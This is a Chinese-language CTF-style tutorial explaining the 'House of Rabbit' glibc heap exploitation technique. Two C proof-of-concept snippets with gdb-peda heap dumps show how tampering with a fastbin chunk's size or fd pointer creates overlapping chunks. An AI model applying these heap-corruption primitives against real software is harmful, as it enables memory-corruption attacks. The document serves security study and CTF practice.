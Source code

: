 # House of Rabbit

## 介绍
House of rabbit是一种伪造堆块的技术，早在2017年已经提出，但在最近两个月才在CTF比赛中出现。我们一般运用在fastbin attack中，因为unsorted bin等其它的bin有更好的利用手段。

## 原理
我们知道，fastbin中会把相同的size的被释放的堆块用一个单向链表管理，分配的时候会检查size是否合理，如果不合理程序就会异常退出。而house of rabbit就利用了在malloc consolidate的时候fastbin中的堆块进行合并时size没有进行检查从而伪造一个假的堆块，为进一步的利用做准备。

由于原作者的[POC](https://github.com/shift-crops/House_of_Rabbit)需要的条件较多，这里我直接介绍这个攻击的本质即可。

`前提条件`:
1. 可以修改fastbin的fd指针或size
2. 可以触发malloc consolidate(merge top或malloc big chunk等等)


下面来看一下POC
`POC 1`: modify the size of fastbin chunk
```cpp
unsigned long* chunk1=malloc(0x40); //0x602000
unsigned long* chunk2=malloc(0x40); //0x602050
malloc(0x10);
free(chunk1);
free(chunk2);
/* Heap layout
0000| 0x602000 --> 0x0 
0008| 0x602008 --> 0x51 ('Q')
0016| 0x602010 --> 0x0 
..... 
0080| 0x602050 --> 0x0 
0088| 0x602058 --> 0x51 ('Q')
0096| 0x602060 --> 0x602000 --> 0x0 
0104| 0x602068 --> 0x0 
...... 
0160| 0x6020a0 --> 0x0 
0168| 0x6020a8 --> 0x21 ('!')
0176| 0x6020b0 --> 0x0 
0184| 0x6020b8 --> 0x0 
*/
chunk1[-1]=0xa1; //modify chunk1 size to be 0xa1
malloc(0x1000);  //allocate a large chunk, trigger malloc consolidate
/*Chunk1 overlap with chunk2 now
gdb-peda$ telescope 0x602000 100
0000| 0x602000 --> 0x0 
0008| 0x602008 --> 0xa1 
0016| 0x602010 --> 0x7ffff7dd1c08 --> 0x7ffff7dd1bf8 --> 0x7ffff7dd1be8 --> 0x7ffff7dd1bd8 --> 0x7ffff7dd1bc8 (--> ...)
0024| 0x602018 --> 0x7ffff7dd1c08 --> 0x7ffff7dd1bf8 --> 0x7ffff7dd1be8 --> 0x7ffff7dd1bd8 --> 0x7ffff7dd1bc8 (--> ...)
0032| 0x602020 --> 0x0 
.....
0080| 0x602050 --> 0x0 
0088| 0x602058 --> 0x51 ('Q')
0096| 0x602060 --> 0x7ffff7dd1bb8 --> 0x7ffff7dd1ba8 --> 0x7ffff7dd1b98 --> 0x7ffff7dd1b88 --> 0x7ffff7dd1b78 (--> ...)
0104| 0x602068 --> 0x7ffff7dd1bb8 --> 0x7ffff7dd1ba8 --> 0x7ffff7dd1b98 --> 0x7ffff7dd1b88 --> 0x7ffff7dd1b78 (--> ...)
0112| 0x602070 --> 0x0 
0120| 0x602078 --> 0x0 
....
0152| 0x602098 --> 0x0 
0160| 0x6020a0 --> 0xa0 
0168| 0x6020a8 --> 0x20 (' ')

gdb-peda$ heapinfo
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x0
                  top: 0x603450 (size : 0x1fbb0) 
       last_remainder: 0x0 (size : 0x0) 
            unsortbin: 0x0
(0x050)  smallbin[ 3]: 0x602050
(0x0a0)  smallbin[ 8]: 0x602000 (overlap chunk with 0x602050(freed) )
*/
```
`POC 2`:modify FD pointer
```cpp
unsigned long* chunk1=malloc(0x40); //0x602000
unsigned long* chunk2=malloc(0x100);//0x602050

chunk2[1]=0x31; //fake chunk size 0x30
chunk2[7]=0x21  //fake chunk's next chunk
chunk2[11]=0x21 //fake chunk's next chunk's next chuck
/* Heap laylout
0000| 0x602000 --> 0x0 
0008| 0x602008 --> 0x51 ('Q')
0016| 0x602010 --> 0x0 
......
0080| 0x602050 --> 0x0 
0088| 0x602058 --> 0x111 
0096| 0x602060 --> 0x0 
0104| 0x602068 --> 0x31 ('1')
0112| 0x602070 --> 0x0 
......
0144| 0x602090 --> 0x0 
0152| 0x602098 --> 0x21 ('!')
0160| 0x6020a0 --> 0x0 
0168| 0x6020a8 --> 0x0 
0176| 0x6020b0 --> 0x0 
0184| 0x6020b8 --> 0x21 ('!')
0192| 0x6020c0 --> 0x0 
......
0352| 0x602160 --> 0x0 
0360| 0x602168 --> 0x20ea1
*/
free(chunk1);
chuck1[0]=0x602060;// modify the fd of chunk1
/*
gdb-peda$ heapinfo
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x602000 --> 0x602060 (size error (0x30)) --> 0x0
*/
malloc(5000);// malloc a  big chunk to trigger malloc consolidate
/*
gdb-peda$ heapinfo
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x0
                  top: 0x6034f0 (size : 0x1fb10) 
       last_remainder: 0x0 (size : 0x0) 
            unsortbin: 0x0
(0x050)  smallbin[ 3]: 0x602000
(0x030)  smallbin[ 1]: 0x602060
*/
```

原理很简单，就是通过修改fastbin chunk的size(如上面的POC 1所示)直接构造overlap chunk，或者修改fd(如面的POC 2所示)，让它指向一个fake chunk，触发malloc consolidate之后让这个fake chunk成为一个合法的chunk。

## 总结
House of rabbit的优点是容易构造overlap chunk，由于可以基于fastbin attack，甚至不需要leak就可以完成攻击。大家可以通过例题的练习加深对这个攻击的理解。

## 例题
1. HITB-GSEC-XCTF 2018 mutepig
2. 待补充








